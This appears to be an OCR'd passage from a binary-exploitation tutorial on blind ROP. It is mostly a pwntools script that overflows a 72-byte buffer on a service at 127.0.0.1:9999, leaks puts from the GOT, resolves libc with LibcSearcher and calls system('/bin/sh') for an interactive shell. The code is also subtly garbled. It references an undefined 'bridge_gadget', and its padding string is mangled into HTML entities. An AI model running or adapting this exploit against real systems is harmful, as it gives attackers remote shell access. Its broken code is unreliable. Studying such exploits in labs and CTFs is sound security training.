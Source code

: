 ```
```



This shows that the address of puts@got is 0x601018.


#### Program Utilization


```python

##length = getbufferflow_length()

length = 72

##stop_gadget = get_stop_addr(length)

stop_gadget = 0x4006b6

## brop_gadget = find_brop_gadget (length, stop_gadget)
brop_gadget = 0x4007ba
rdi_ret = bridge_gadget + 9
##puts_plt = get_puts_addr(length, rdi_ret, stop_gadget)

puts_plt = 0x400560
##leakfunction(length, rdi_ret, puts_plt, stop_gadget)

puts_got = 0x601018



sh = remote('127.0.0.1', 9999)

sh.recvuntil('password?\n')

payload = 'a' * length + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(

    stop_gadget)

sh.sendline(payload)

data = sh.recvuntil('\nWelCome', drop=True)

puts_addr = u64 (data.ljust (8, &#39;x00&#39;))
libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload = 'a' * length + p64(rdi_ret) + p64(binsh_addr) + p64(

    system_addr) + p64(stop_gadget)

sh.sendline(payload)

sh.interactive()

```
